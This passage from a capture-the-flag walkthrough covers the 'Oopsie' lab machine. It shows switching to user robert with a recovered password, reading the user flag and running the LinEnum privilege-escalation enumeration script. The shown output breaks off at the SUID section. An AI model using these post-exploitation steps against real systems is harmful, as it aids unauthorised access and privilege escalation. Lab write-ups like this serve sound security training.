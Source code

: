 Now that we have a terminal, we can login as Robert, using the above credentials:
```bash
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
robert@oopsie:/$ cd home
cd home
robert@oopsie:/home$ ls
ls
robert
robert@oopsie:/home$ cd robert
cd robert
robert@oopsie:~$ ls
ls
cat  LinEnum.sh  user.txt
robert@oopsie:~$ cat user.txt
cat user.txt
f2c7************************7981
```

And we have the user flag!  But I also notice an attractive-looking shell script in there...let's run it and see:
```bash
#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Wed Apr  7 12:36:19 UTC 2021


### SYSTEM ##############################################

...

[-] Hostname:
oopsie


### USER/GROUP ##########################################
[-] Current user/group info:
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)

...

### INTERESTING FILES ####################################

...

[-] SUID files:

...

```